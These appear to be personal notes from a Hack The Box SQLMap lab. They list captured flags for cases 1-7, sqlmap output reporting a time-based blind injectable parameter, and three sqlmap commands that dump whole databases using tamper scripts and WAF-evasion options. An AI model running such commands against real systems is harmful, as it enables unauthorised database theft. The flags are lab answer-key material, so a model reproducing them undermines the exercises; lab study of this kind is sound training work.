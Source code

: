 # Page 3

```
Case1 - HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} 

Case 2 - HTB{700_much_c0n6r475_0n_p057_r3qu357}

Case 3 - HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}

Case 4 - HTB{j450n_v00rh335_53nd5_6r475}

Case 5 - HTB{700_much_r15k_bu7_w0r7h_17}

Case 6 - HTB{v1nc3_mcm4h0n_15_4570n15h3d}

Case 7 - HTB{un173_7h3_un173d}


GET parameter 'col' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
GET parameter 'col' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
--technique=BEUS
```

{% code overflow="wrap" %}
```
sqlmap -r case10.txt -p id -D testdb --dump-all --batch --level=2 --risk=3 --tamper=base64encode --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r case11.txt -p id -D testdb -T flag11 --dump-all --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r final01.txt -p id -D production -T final_flag --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf --dump 
```
{% endcode %}
